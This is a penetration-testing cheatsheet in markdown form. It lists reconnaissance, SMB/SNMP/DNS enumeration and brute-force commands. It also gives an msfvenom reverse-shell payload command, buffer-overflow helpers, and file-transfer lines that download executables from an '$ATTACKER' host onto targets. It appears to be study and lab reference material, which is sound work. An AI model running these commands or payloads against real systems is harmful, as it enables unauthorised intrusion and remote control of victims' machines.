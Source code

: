 # Offensive Security / PenTesting Cheatsheets
A collection of cheatsheets, convenience functions, reminders and other useful snippets to aid your during your pentest engagement.
Disclaimer: I did not claim ownership of netcat and linux privilege escalation or reverse shell scripts.
The below is heavily inspired and based on https://github.com/dostoevskylabs/dostoevsky-pentest-notes.


## Reconnaissance / Enumeration

##### Extracting Live IPs from Nmap Scan
```bash
nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips
```

##### DNS lookups, Zone Transfers & Brute-Force
```bash
whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
nslookup -> set type=any -> ls -d domain.com
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done
```

##### Banner Grabbing
```bash
nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET
```

##### Kerberos User Enumeration
```bash
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'
```


##### HTTP Brute-Force & Vulnerability Scanning
```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee /root/tools/$target/$target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target/$target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target/$target-wpscan-enum
```

##### RPC / NetBios / SMB
```bash
rpcinfo -p $TARGET
nbtscan $TARGET

#list shares
smbclient -L //$TARGET -U ""

# null session
rpcclient -v "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

##### SNMP
```bash

# Windows User Accounts
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25

# Windows Running Programs
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2

# Windows Hostname
snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27

# Windows TCP Ports
snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3

# Software Name
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2

# brute-force community strings
onesixtyone -i snmp-ips.txt -c community.txt

snmp-check $TARGET
```

##### SMTP
```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

## Gaining Access

##### Generating Payload Pattern & Calculating Offset
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

##### Generating Payload with msfvenom
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

##### Cross-Compiling for Windows from Linux
```bash
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe
```



## Local Enumeration & Privilege Escalation

##### Binary Exploitation with ImmunityDebugger
```
# Show loaded modules. We're interested in modules without protection, Read & Execute permissions
!mona modules
```

```
# Find JMP ESP (FFE4)
!mona find -s "\xFF\xE4" -m moduleName
```

##### Uploading Files to Target Machine

###### Setting up Simple HTTP server

```bash
# Linux
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:80
```

###### TFTP
```bash
#tftp; Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

###### HTTP
```PowerShell
powershell.exe -Command "& {(New-Object Net.WebClient).DownloadFile('http://$ATTACKER/file.exe', 'C:\file.exe')}"
```

```bash
# Linux
wget http://$ATTACKER/file
curl http://$ATTACKER/file
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

###### FTP
```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt
```

##### Bash Ping Sweeper
```bash
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

##### Brute-forcing XOR'ed string with 1 byte key in Python
```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

##### Generating Bad Character Strings

```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done
```


##### Port Scanning with NetCat
```bash
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```

##### General File Search
```bash
# query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

